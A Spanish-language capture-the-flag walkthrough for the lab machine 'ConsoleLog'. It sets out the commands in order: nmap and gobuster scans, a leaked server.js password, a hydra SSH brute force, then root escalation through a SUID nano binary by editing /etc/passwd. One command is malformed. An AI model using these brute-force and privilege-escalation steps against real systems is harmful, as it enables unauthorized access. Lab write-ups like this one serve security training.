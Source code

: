 Maquina: ConsoleLog

Autor: El Pingüino de Mario

Dificultad: Facil

Hacemos ping para ver si hay conexion ping 172.17.0.2 -c 1

Hacemos un escaneo de puertos con nmap 

sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

navegamos por la web y miramos el source code

172.17.0.2

Encontramos que tiene un enlace a authentication.js

172.17.0.2/authentication.js

Hacemos un escaneo de directorios y vemos que tenemos uno que se llama back-end

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.17.0.2

Navegamos al directorio /backend podemos observar que tenemos diversos archivos

Hay uno que se llama server.js, parece que este servidor escucha peticiones POST en la ruta /recurso/ y devuelve una contraseña si el token proporcionado es correcto

172.17.0.2/backend/server.js

descubrimos un posible password

usamos hydra para descubrir el usuario de la credencial conseguida

hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p lapassworddebackupmaschingonadetodas ssh://172.17.0.2 -s 22 -t 64

nos conectamos por ssh con las credenciales obtenidas

ssh lovely@172.17.0.2

lapassworddebackupmaschingonadetodas

realizamos un sudo -l y podemos observar que no tenemos el comando sudo

realizamos una búsqueda de permisos SUID y podemos observar que tenemos a nano

find \-perm -4000 -user root 2>/dev/null

tenemos la capacidad de ejecutar comandos como root usando nano y siendo así podemos editar el archivo passwd y quitarle la x para poder acceder sin credenciales

cd /

cd ./usr/bin/nano /etc/passwd

borramos la x en root y guardamos

su root

whoami
